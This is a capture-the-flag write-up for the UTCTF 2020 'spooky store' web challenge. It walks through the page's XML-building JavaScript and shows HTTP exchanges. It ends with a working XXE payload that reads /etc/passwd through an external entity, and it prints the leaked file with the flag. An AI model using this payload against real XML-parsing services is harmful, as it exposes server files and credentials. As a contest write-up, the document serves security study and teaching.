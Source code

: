 # UTCTF 2020 – spooky store

* **Category:** web
* **Points:** 50

## Challenge

> It's a simple webpage with 3 buttons, you got this :)
> 
> http://web1.utctf.live:5005/
> 
> by matt

## Solution

The web page sends data via XML envelops, using two Javascript files, when buttons are pressed.

The first script (`http://web1.utctf.live:5005/static/js/xmlLocationCheckPayload.js`) crafts the XML envelope.

```javascript
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<locationCheck>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</locationCheck>';
    return xml;
}
```

The second script (`http://web1.utctf.live:5005/static/js/locationCheck.js`) sends the XML envelope and reads the answer.

```javascript
document.querySelectorAll('.locationForm').forEach(item => {
    item.addEventListener("submit", function(e) {
        checkLocation(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
        e.preventDefault();
    });
});
function checkLocation(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t)
                : "Could not fetch nearest location :("
            )
            .then(res => document.getElementById("locationResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

A normal interaction is like the following.

```
POST /location HTTP/1.1
Host: web1.utctf.live:5005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web1.utctf.live:5005/
Content-Type: application/xml
Origin: http://web1.utctf.live:5005
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><locationCheck><productId>1</productId></locationCheck>

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 07 Mar 2020 11:04:35 GMT
Server: Werkzeug/1.0.0 Python/3.8.1
Content-Length: 60
Connection: Close

The nearest coordinates to you are: 25.0000Â° N, 71.0000Â° W
```

Passing a wrong `productId` will trigger the following error message.

```
POST /location HTTP/1.1
Host: web1.utctf.live:5005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web1.utctf.live:5005/
Content-Type: application/xml
Origin: http://web1.utctf.live:5005
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><locationCheck><productId>0</productId></locationCheck>

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 07 Mar 2020 11:05:11 GMT
Server: Werkzeug/1.0.0 Python/3.8.1
Content-Length: 20
Connection: Close

Invalid ProductId: 0
```

The passed parameter is reflected to the response, so if the system is vulnerable to XXE you can read files on the server.

So you can craft a payload like the following.

```
POST /location HTTP/1.1
Host: web1.utctf.live:5005
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://web1.utctf.live:5005/
Content-Type: application/xml
Origin: http://web1.utctf.live:5005
Content-Length: 176
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><locationCheck><productId>&xxe;</productId></locationCheck>

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Date: Sat, 07 Mar 2020 11:09:12 GMT
Server: Werkzeug/1.0.0 Python/3.8.1
Content-Length: 1234
Connection: Close

Invalid ProductId: root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
utctf:x:1337:utflag{n3xt_y3ar_go1ng_bl1nd}
```

And discover the flag into `/etc/passwd`.

```
utflag{n3xt_y3ar_go1ng_bl1nd}
```
